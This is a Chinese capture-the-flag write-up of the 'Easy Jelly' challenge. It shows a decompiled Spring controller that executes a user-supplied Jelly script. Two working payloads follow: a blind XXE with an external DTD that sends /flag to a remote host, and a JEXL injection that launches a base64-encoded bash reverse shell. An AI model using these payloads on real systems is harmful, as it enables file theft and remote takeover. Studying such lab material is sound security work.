

# Easy Jelly题解
## 考点
- Jelly利用
- 非预期：无回显XXE
- 预期：jexl表达式注入

## 分析与解答
### 非预期XXE无回显注入
有个jar包，用IDEA打开，可以看到源`.class`文件内容，基本上也就等价于拿到了源码，其中`IndexController.class`内容如下：
```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.ctf.jelly;

import java.io.IOException;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import org.apache.commons.jelly.JellyContext;
import org.apache.commons.jelly.Script;
import org.apache.commons.jelly.XMLOutput;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.w3c.dom.Document;
import org.xml.sax.SAXException;

@Controller
public class IndexController {
    public IndexController() {
    }

    private static Boolean check(String uri) throws IOException, ParserConfigurationException, SAXException {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        dbf.setNamespaceAware(true);
        DocumentBuilder builder = dbf.newDocumentBuilder();
        Document doc = builder.parse(uri);
        int tag1 = doc.getElementsByTagNameNS("*", "expr").getLength();
        int tag2 = doc.getElementsByTagNameNS("*", "import").getLength();
        int tag3 = doc.getElementsByTagNameNS("*", "include").getLength();
        int tag4 = doc.getElementsByTagNameNS("*", "invoke").getLength();
        int tag5 = doc.getElementsByTagNameNS("*", "invokeStatic").getLength();
        int tag6 = doc.getElementsByTagNameNS("*", "new").getLength();
        int tag7 = doc.getElementsByTagNameNS("*", "parse").getLength();
        int tag8 = doc.getElementsByTagNameNS("*", "set").getLength();
        int tag9 = doc.getElementsByTagNameNS("*", "setProperties").getLength();
        int tag10 = doc.getElementsByTagNameNS("*", "out").getLength();
        int tag11 = doc.getElementsByTagNameNS("*", "useBean").getLength();
        return tag1 <= 0 && tag2 <= 0 && tag3 <= 0 && tag4 <= 0 && tag5 <= 0 && tag6 <= 0 && tag7 <= 0 && tag8 <= 0 && tag9 <= 0 && tag10 <= 0 && tag11 <= 0 ? true : false;
    }

    @RequestMapping({"/"})
    @ResponseBody
    public String Index() {
        return "Try to eat jelly";
    }

    @RequestMapping({"/jelly"})
    @ResponseBody
    public String Jelly(@RequestParam(required = true) String uri) {
        try {
            if (check(uri)) {
                JellyContext context = new JellyContext();
                Script script = context.compileScript(uri);
                script.run(context, XMLOutput.createXMLOutput(System.out));
                return "Tasty Jelly :)";
            }
        } catch (Exception var4) {
        }

        return "no way :(";
    }
}
```

漏洞点就在于`context.compileScript(uri).run(context, XMLOutput.createXMLOutput(System.out))`处，不过在此之前，通过`check()`过滤了一些jelly标签(这些分析均是在没有细致研究jelly下推测出来的，泪目.jpg)。

在本地搭一下复现环境，文件放到了`jelly_ctf`文件夹下，在该目录下依次执行如下命令：
```shell
sudo docker build -t httpd:jelly .
sudo docker run -d -p 8081:80 httpd:jelly
sudo docker ps
```

会有如下效果：\


然后由于是无回显的，所以需要外带显示，因此需要一台vps，在vps上准备如下文件内容，由于我没有vps，因此就在同靶机上准备了，道理都是一样的：
```xml
# 1.xml
<!DOCTYPE test [
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % dtd SYSTEM "http://192.168.59.129:7777/evil.dtd">
%dtd;
]>
```
```xml
# evil.dtd
<!ENTITY % all "<!ENTITY &#x25; send  SYSTEM 'http://192.168.59.129:8888/%file;'> ">
%all;
%send;
```

在vps上利用python快速起一个http服务，放入`1.xml`和`evil.dtd`：\


然后利用nc监听`8888`端口：\


构造payload为`/jelly?uri=http://192.168.59.129:7777/1.xml`：\


在vps上会有如下结果，可以看到靶机加载了xml后，读取本地的`flag`文件内容，并将其发送到远程：\


### 预期：jexl表达式注入
搭建环境一样的

然后是`1.xml`的内容为如下：
```xml
<?xml version="1.0" encoding="utf-8"?>
<j:jelly xmlns:j="jelly:core">
<j:getStatic var="str"
className="org.apache.commons.jelly.servlet.JellyServlet" field="REQUEST"/> <j:whitespace>${str
.class
.forName('javax.script.ScriptEngineManager').newInstance() .getEngineByName('js')
.eval('java.lang.Runtime.getRuntime().exec(&quot;  bash -c `{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU5LjEvOTk5OSAwPiYx|{base64,-d}|{bash,-i}` &quot;)')}</j:whitespace>
</j:jelly>
```

在vps上开启nc监听，监听`9999`端口：\


然后payload为`/jelly?uri=http://192.168.59.129:7777/1.xml`：\


反弹shell：\


<mark>以上就是这道题的考点内容，具体的jelly底层，可能还得需要花时间去分析这个漏洞是怎么形成的，最近时间太赶了呜呜呜呜~</mark>


## 参考
[\[1\] Apache Common Jelly浅析](https://xz.aliyun.com/t/16667?time__1311=Gui%3DYKGKDKiKY5DsLBxCq7In1xjEl71naoD#toc-4)\
[\[2\] Jelly官方文档](https://commons.apache.org/proper/commons-jelly/)\
[\[3\] 国城杯2024 线上赛 writeup](https://jaspersec.top/2024/12/16/0x12%20%E5%9B%BD%E5%9F%8E%E6%9D%AF2024%20writeup%20with%20docker/#easy-jelly)